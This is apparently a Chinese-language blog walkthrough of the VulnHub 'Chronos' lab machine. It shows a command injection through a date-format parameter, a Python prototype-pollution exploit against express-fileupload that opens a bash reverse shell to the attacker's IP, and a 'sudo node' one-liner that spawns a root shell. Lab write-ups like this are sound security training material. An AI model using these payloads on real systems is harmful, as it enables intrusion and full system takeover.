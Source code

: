 ```yaml
---
title: VulnHub靶场 Chronos
description: VulnHub靶场 Chronos WP
pubDate: 10 20 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.webp
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-1.webp)

发现目标主机为 `192.168.135.105`，进行端口扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-2.webp)

发现目标主机上开放 80 端口，访问目标端口 HTTP 服务

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-6.webp)

没啥东西，尝试目录扫描，也没出货。查看源码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-4.webp)

这里存在一段 JS，不过有一些混淆。不过这里有一个明文的 URL

```url
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

这里端口是 8000 端口，而且我们在进行端口扫描的时候，也发现了目标主机上开放了 8000 端口。而这个域名 `chronos.local`，可能就是靶机。我们可以添加个 hosts 试试。然后再刷新页面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.webp)

页面发生了变化，我们直接访问 `http://chronos.local:8000`。不过在 windows 上经过测试，需要添加 UA 头，值为 `Chronos`。再次访问，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-7.webp)

没啥东西了，重点应该就是这个 `4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`，尝试解一下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-8.webp)

那么他是怎么输出的呢？

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-9.webp)

结果和我们页面返回的一样。那么我们猜测后端其实就是执行了一个 date 命令，那么利用管道符就可以执行目标命令

```
date +Today is %A, %B %d, %Y %H:%M:%S.' || ls
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-10.webp)

重放进行尝试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-11.webp)

得到 ls 命令结果，命令执行成功。使用 nc 进行反弹，失败，使用 MSF，成功

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-12.webp)

一番找，在 `/opt/chronos-v2/backend` 下发现个 `package.json`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-13.webp)

```json
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```

这里有一些 `chronos-v2` 引用的库，这里有个 `express-fileupload`，该库存在 JS 原型污染，并且在服务端，必要条件 `parseNested` 为 True 也存在

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-14.webp)

exp 如下

```python
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/192.168.135.192/8888 0>&1"'

# pollute
requests.post(
    'http://127.0.0.1:8080',
    files={
        '__proto__.outputFunctionName':
        (None,
         f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x"
         )
    })

# execute command
requests.get('http://127.0.0.1:8080')
```

注意，由于是 `server.js` 下存在这个漏洞，它的监听端口是 `127.0.0.1:8080`，所以不要搞错 IP 端口。

把文件传到 `/tmp` 下，运行，即可得到反弹 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-15.webp)
但是不是 root 权限，我们使用 `sudo -l` 查看

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-16.webp)

可以看到，`/usr/local/bin/node` 有 root 权限。使用 node 进行提权

```shell
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-17.webp)

然后再传 MSF 马，得到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-18.webp)
